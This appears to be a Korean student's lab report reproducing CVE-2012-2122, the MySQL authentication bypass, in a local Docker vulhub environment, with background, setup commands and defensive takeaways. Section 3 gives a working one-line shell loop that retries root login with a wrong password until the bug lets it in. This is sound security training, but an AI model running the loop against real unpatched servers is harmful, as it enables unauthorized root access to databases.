 # CVE-2012-2122 실습 보고서

- WHS 3기 17반 남윤화
- 2025-04-10
- MySQL 인증 우회 취약점 (CVE-2012-2122)
- 실습 환경: Docker + kr-vulhub
- GitHub 레포: (https://github.com/SouthYun/kr-vulhub)

---

## 1. 개요

CVE-2012-2122는 MySQL 5.5.23 이하 버전에서 발생하는 인증 우회 취약점입니다.  
잘못된 비밀번호를 여러 번 입력할 경우, 낮은 확률로 인증이 우회되며 로그인에 성공할 수 있습니다.  
이는 MySQL 내부의 암호 비교 함수의 버그로 인해 발생합니다.

### 1.1 MySQL이란
MySQL은 오픈 소스 관계형 데이터베이스로, 데이터를 표로 저장하고 관리하는 프로그램입니다. 많은 웹 서비스에서 사용자 정보나 게시글을 저장할 때 사용합니다. 

### 1.2 정상적 MySQL
사용자가 Id, Pw 입력 후 서버가 암호화된 해시로 비교합니다. 일치하면 로그인 성공입니다.

### 1.3 인증 우회 취약점
내부적으로 strcmp() 함수를 써서 비교하던 중, 암호가 맞지 않아도 특정 시점에서는 이를 같다고 잘못 판단하는 경우가 발생했습니다.
이는 1/256 확률로 발생합니다.만일 root계정으로 인증이 우회되면 DB를 전부 빼내갈 수 있으므로 이는 매우 위험합니다.
---

## 2. 실습 환경 구성

### 2.1 kr-vulhub 클론

```
git clone https://github.com/SouthYun/kr-vulhub
cd kr-vulhub/MySQL/CVE-2012-2122
```

### 2.2 Docker 환경 실행
```
docker-compose up -d
```
정상적으로 컨테이너가 실행되었는지 확인합니다.


## 3. 취약점 재현
### 3.1 무한 루프 로그인 시도
취약한 서버에 비밀번호가 틀린 상태로 계속 로그인을 시도합니다.

```
while true; do mysql -u root -pwrongpassword -h 127.0.0.1; done
```
위위 명령어는 잘못된 비밀번호를 반복적으로 시도하여, 낮은 확률로 인증 우회가 발생하는지를 실험합니다.

### 3.2 로그인 우회 성공
일정 횟수 반복 후, 아래와 같이 root 권한으로 로그인에 성공합니다.

```
Welcome to the MySQL monitor.
Your MySQL connection id is 660
Server version: 5.5.23 Source distribution
```
[인증 우회 성공 스크린샷](login-bypass-success.png)
[데이터베이스 확인 스크린샷](show-DB.png)


## 4. 요약 및 느낀 점
실제로 취약한 MySQL 버전에서는 비밀번호가 틀려도 인증이 우회되는 사례가 발생함을 확인했습니다.

이를 통해  공격자가 root를 포함한 특정 사용자 계정에 로그인해 허용되지 않은 권한의 기능을 수행하고 정보를 얻을 수 있음을 알게 되었습니다.

위와 같은 취약점을 방지하기 위해선 주기적인 보안 업데이트가 중요하며, DB 서버의 네트워크가 노출되지 않도록 노력해야 함을 알게 되었습니다.

